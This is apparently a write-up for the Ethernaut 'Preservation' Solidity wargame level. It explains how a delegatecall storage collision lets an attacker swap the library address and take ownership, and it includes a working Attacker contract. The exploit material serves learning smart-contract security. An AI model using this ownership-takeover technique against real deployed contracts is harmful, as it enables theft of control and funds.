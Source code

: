 # Preservation Ethernaut

## Goals

=> This contract utilizes a library to store two different times for two different timezones. The constructor creates two instances of the library for each time to be stored.

=> The goal of this level is for you to claim ownership of the instance you are given.

### Hints

- Look into Solidity's documentation on the delegatecall low level function, how it works, how it can be used to delegate operations to on-chain. libraries, and what implications it has on execution scope.
- Understanding what it means for delegatecall to be context-preserving.
- Understanding how storage variables are stored and accessed.
- Understanding how casting works between different data types.

### Solution

- The Problem lies in the wrong usage of the delegate call, if we call `setFirstTime()` and pass in the address typecasted to a uint256 of our `Attacker` contract the `setTime()` function in the LibraryContract will change the variable in storage slot 1 of the `Preservation` contract, which is `timeZone1Library` to our contract, now if we call this function a second time the `Preservation` contract will call into our contract, where we can just do `owner = YOURADDRESS` for that our `Attacker` contract needs to mimic the storage layout of the preservation contract obviously, so it accesses storage slot 3 in the `Preservation` contract.

### Attacker Contract

```solidity
contract Attacker {
    address public timeZone1Library;
    address public timeZone2Library;
    address public owner;

    function attack(Preservation preservation) external {
        // timeZone1Library will be this address after this call
        preservation.setFirstTime(uint256(uint160(address(this))));
    }

    function setTime(uint _time) external {
        // this will change the target contracts owner storage variable owner to my address
        owner = address(0xe4064d8E292DCD971514972415664765e51B5364);
    }
}

```
